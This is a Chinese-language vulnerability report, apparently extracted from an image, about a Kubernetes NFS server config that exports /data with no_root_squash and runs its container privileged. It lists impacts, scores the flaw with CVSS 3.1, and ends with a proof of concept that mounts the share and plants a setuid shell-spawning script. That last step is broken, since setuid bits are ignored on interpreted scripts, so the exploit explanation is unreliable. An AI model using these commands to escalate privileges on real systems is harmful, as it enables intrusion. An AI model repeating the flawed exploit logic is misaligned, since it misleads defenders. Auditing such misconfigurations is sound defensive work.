 **原因：**

1. **使用了`no_root_squash`选项：**

在`nfs-server.yaml`配置文件中，NFS服务器的导出目录使用了`no_root_squash`选项：

```yaml
- name: NFS_EXPORT_0
  value: /data *(rw,sync,fsid=0,crossmnt,no_subtree_check,no_root_squash)
```

`no_root_squash`选项会导致NFS客户端上的root用户在访问NFS共享时，具有与服务器root用户相同的权限。这意味着任何能够访问NFS共享的客户端，都可以以root权限对共享目录进行操作。这是一个严重的安全风险，可能导致未经授权的用户以root权限读取、修改或删除NFS共享上的文件，甚至可能导致远程代码执行或特权提升。

2. **容器以特权模式运行：**

在`nfs-server.yaml`中，NFS服务器容器设置了`privileged: true`：

```yaml
securityContext:
  privileged: true
```

以特权模式运行的容器拥有对主机的大量访问权限，如果被恶意利用，可能导致主机被攻陷或容器逃逸。

**可能的影响：**

- **权限提升：** 攻击者可以通过NFS客户端以root权限访问和修改NFS服务器上的文件，可能导致整个系统的权限提升。

- **远程代码执行：** 攻击者可能在共享目录中放置恶意脚本或程序，并在服务器或其他客户端上执行。

- **容器逃逸：** 由于容器以特权模式运行，攻击者可能利用容器内的漏洞实现对宿主机的控制。

- **数据泄露或破坏：** 未经授权的用户可以访问、修改或删除敏感数据，影响数据的完整性和保密性。

**Proof of Concept（概念验证）：**

1. **攻击者挂载NFS共享：**

假设攻击者拥有对NFS客户端的访问权限，首先挂载NFS共享目录：

```bash
sudo mount -t nfs <NFS服务器IP>:/data /mnt/nfs
```

2. **以root权限创建恶意脚本：**

在挂载的NFS共享目录中，以root权限创建一个恶意的SetUID脚本：

```bash
sudo bash -c 'echo -e "#\!/bin/bash\n/bin/bash" > /mnt/nfs/evil.sh'
sudo chmod +xs /mnt/nfs/evil.sh
```

3. **在其他客户端或服务器上执行恶意脚本：**

由于`no_root_squash`的存在，`evil.sh`脚本具有SetUID位，当其他用户执行该脚本时，将以root权限运行，导致权限提升。

**根据CVSS 3.1评分，该漏洞的评分可能如下：**

- **攻击向量（AV）：** 网络（Network）
- **攻击复杂度（AC）：** 低（Low）
- **特权要求（PR）：** 低（Low）
- **用户交互（UI）：** 无（None）
- **影响范围（S）：** 改变（Changed）
- **机密性（C）：** 高（High）
- **完整性（I）：** 高（High）
- **可用性（A）：** 高（High）
